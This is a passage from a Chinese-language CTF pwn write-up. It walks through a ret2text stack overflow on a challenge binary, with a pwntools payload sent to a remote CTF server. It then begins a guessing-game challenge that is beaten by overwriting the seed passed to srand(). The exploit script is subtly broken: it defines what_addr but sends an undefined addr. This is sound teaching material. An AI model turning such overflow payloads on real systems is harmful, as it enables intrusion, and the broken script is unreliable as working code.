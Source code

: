 ![t8s7QA.png](https://s1.ax1x.com/2020/06/01/t8s7QA.png)

​		因为read函数允许读入0x200个字节，长度足够，所以我们用0x38个'a'填满buf，用p32(0)填满旧ebp，再用what_is_this()的地址填充原来的返回地址，这样nothing函数执行结束后，系统就会跳转到what_is_this开始执行。

​		脚本如下：

```python
from pwn import *
p = remote("121.41.113.245",10002)
elf = ELF('./rop_still')
what_addr = 0x08048562
p.recvuntil("Not thing here...")
payload='A'*0x38+p32(0)+p32(addr)
p.send(payload)
p.interactive()
```



### guess

​		在Ubuntu终端执行命令来远程运行程序。

```sh
nc 121.41.113.245 10000
```

​		发现貌似是一个猜数字的程序。

[![t8srRJ.png](https://s1.ax1x.com/2020/06/01/t8srRJ.png)](https://imgchr.com/i/t8srRJ)

​		丢ida分析一波。主要函数只有main函数。

![t8ssz9.png](https://s1.ax1x.com/2020/06/01/t8ssz9.png)

​		在程序中可以看到，v8变量是用随机数函数rand()函数生成的，每次的值都不一样。

​		此处要注意[伪随机数的知识](https://www.cnblogs.com/guihailiuli/p/4154416.html)。

​		大致的意思是，srand()和rand()函数可以配合使用生成随机数，rand()用来返回生成的值。rand()函数虽然能产生随机数，但是是通过srand的参数seed经过一定算法得出来的。换句话说，在函数算法不变的前提下，我们使用同样的参数seed，就可以得出同样的随机数。

![t8s6MR.png](https://s1.ax1x.com/2020/06/01/t8s6MR.png)

​		同样的自变量，同样的函数，就会得出同样的因变量。

​		所以srand()函数不变的前提下，我们只需要改变seed的值就可以控制最终得出的随机数。

​		在程序中我们看到srand()的参数，也就是seed，用的是a[0]，而a[0]在main函数第12行处被一个未初始化的变量赋值过，也就是说是个不确定的值。我们要做的就是覆写这个a[0]。

​		我们假设a[0]等于1，再求出来生成的随机数是多少。

​		写个C程序用srand函数算一算：

![t8sWdK.png](https://s1.ax1x.com/2020/06/01/t8sWdK.png)

[![t8sfIO.png](https://s1.ax1x.com/2020/06/01/t8sfIO.png)](https://imgchr.com/i/t8sfIO)

​		seed等于1是，rand()%100得出的结果为83。
